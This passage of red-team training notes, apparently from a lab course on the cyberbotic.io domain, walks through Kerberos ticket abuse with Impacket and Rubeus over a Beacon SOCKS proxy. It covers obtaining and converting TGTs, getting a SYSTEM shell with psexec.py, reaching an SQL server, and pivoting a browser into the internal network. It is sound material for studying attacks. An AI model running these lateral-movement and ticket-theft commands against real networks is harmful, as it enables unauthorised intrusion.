     ubuntu@DESKTOP-3BSK7NO ~> proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daa... dev.cyberbotic.io/jking

Use the FQDN dev.cyberbotic.io rather than the NetBIOS name DEV. This will output the ticket in ccache format which can be used with other Impacket scripts. First create an environment variable ```KRB5CCNAME``` that points to the ccache file:

    ubuntu@DESKTOP-3BSK7NO ~> export KRB5CCNAME=jking.ccache

Use psexec.py to get a SYSTEM shell on WEB:

    ubuntu@DESKTOP-3BSK7NO ~> proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
    C:\Windows\system32> hostname && whoami
    C:\Windows\system32> exit

With a ticket in kirbi format (from another tool) can be converted to ccache format for use with Impacket, e.g. use the TGT delegation trick to get a usable TGT for bfarmer from a non-elevated session:

    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap

Base64 decode the ticket and write it to bfarmer.kirbi:

    ubuntu@DESKTOP-3BSK7NO ~> echo -en 'doIFzj...' | base64 -d > bfarmer.kirbi

Then convert it using ticketConverter.py:

    ubuntu@DESKTOP-3BSK7NO ~> ticketConverter.py bfarmer.kirbi bfarmer.ccache

Use this TGT to interact with the SQL-2 service:

    ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io
    SQL> select @@servername;
    SQL-2

(Might require adding a static host entry to /etc/hosts and changing the proxy_dns setting in /etc/proxychains.conf to remote_dns.)

## Browsers

Firefox with the FoxyProxy extension is ideal for pivoting a browser into the network to view internal web apps.Add a new entry in FoxyProxy that points to the Beacon SOCKS proxy:

    Proxy Type: SOCKS5
    Proxy IP address: 10.10.5.50
    Port: 1080

Then navigate to the internal web server 10.10.122.30.

Can also perform NTLM authentication following the steps outlined [here](https://offensivedefence.co.uk/posts/ntlm-auth-firefox).

## Reverse Port Forwarding
